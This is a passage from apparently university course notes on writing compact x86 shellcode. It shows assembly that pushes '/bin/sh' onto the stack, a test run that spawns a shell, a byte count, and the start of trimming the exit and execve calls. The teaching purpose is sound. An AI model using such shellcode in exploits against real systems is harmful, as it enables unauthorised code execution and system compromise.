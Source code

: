 Looking closely at the two push commands, we have to be mindful of the
order and little-endian.

``` {.asm}
    push 0x68732f6e     ;n/sh
    push 0x69622f2f     ;//bi 
```

Note first that the last thing pushed on the stack would be the start of
the string sequence. The byte 0x2f is '/', and looking closely at the
bytes, you see that the number 0x69622f2f is "ib//" which when reversed
in little endian storage, becomes "//bi."

Finally, we still have to NULL terminate the string, so we push onto the
stack first zero byte. When it is all said and done, we get the
following:

``` {.example}
       | 0x0 0x0 0x0 0x0 | 0x00000000
       | 'n' '/' 's' 's' | 0x68732f6e
 esp-> | '/' '/' 'b' 'i' | 0x69622f2f
       '-----------------'
```

And, we can now use the value of `esp` as the start of the "/bin/sh\\0"
string.

Let's compile and see if this works:

``` {.example}
user@si485H-base:demo$ ld  -o push_shell_2 push_shell_2.o
user@si485H-base:demo$ ./push_shell_2 
$ echo "It worked!"
It worked!
$ 
```

And, we can see how many bytes it is:

``` {.example}
user@si485H-base:demo$ printf `./hexify.sh push_shell_2` | wc -c
34
```

Woohoo! We saved 3 bytes.

Removing Crud from the Shell Code
---------------------------------

The next place to turn our frugal eyes upon is the extra bit of crud in
the shell code. In particular, let's start by removing the `exit` system
call. Why do we need to exit cleanly from our shell code if we fail to
execve? Who cares? We are trying to bring down the systems and a bit of
segfaulting here and there is ok by me.

The second item we want to focus on is the `execve()` call itself. It
turns out that you don't need to do quite as much work for the shell to
execute. Consider this small example program:
